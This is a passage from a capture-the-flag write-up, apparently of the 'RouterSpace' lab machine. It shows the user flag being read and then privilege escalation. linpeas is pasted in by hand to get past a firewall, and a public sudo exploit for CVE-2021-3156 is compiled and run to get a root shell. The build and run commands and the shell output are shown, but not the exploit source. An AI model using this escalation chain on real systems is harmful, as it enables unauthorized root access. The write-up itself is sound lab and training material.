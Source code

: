 Perfect! And we also have the **user.txt** right here:
```bash
paul@routerspace:~$ ls
snap  user.txt
paul@routerspace:~$ cat user.txt
821fd23636e96802****************
```

Now let's move on to the **root.txt**.

# **```Privesc```**
# Abusing sudo (CVE-2021-3156)

With **linpeas.sh** we will make a quick enumeration of the machine:

{{< image src="/img/rou16.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


Although we cannot use **wget** because of the firewall, we can quickly copy the content of the file with **xclip** and write it manually with **nano**:

```bash
paul@routerspace:/tmp$ nano linpeas.sh
paul@routerspace:/tmp$ chmod +x linpeas.sh
```

{{< image src="/img/rou17.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}

{{< image src="/img/rou18.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}



The sudo version is outdated and probably has some vulnerabilities, so let's look for exploits:

{{< image src="/img/rou14.png" alt="Hello Friend" position="center" style="border-radius: 8px;" >}}


This one looks strong. We just have to upload it, compile and execute it.
Just as before, we can write each file manually.

```bash
paul@routerspace:/tmp$ nano exploit.c
paul@routerspace:/tmp$ nano Makefile
paul@routerspace:/tmp$ nano shellcode.c
paul@routerspace:/tmp$ make
mkdir libnss_x
cc -O3 -shared -nostdlib -o libnss_x/x.so.2 shellcode.c
cc -O3 -o exploit exploit.c
```

This should've created an exploit that will give us access to root:
```text
paul@routerspace:/tmp$ ls
exploit      systemd-private-60ad4c204f3148ffbd2fbc47532774f3-systemd-logind.service-JdHSCg
exploit.c    systemd-private-60ad4c204f3148ffbd2fbc47532774f3-systemd-resolved.service-7tkzci
libnss_x     systemd-private-60ad4c204f3148ffbd2fbc47532774f3-systemd-timesyncd.service-ksdFCh
Makefile     vmware-root_691-4013264459
shellcode.c

paul@routerspace:/tmp$ ./exploit
# whoami
root
#
```
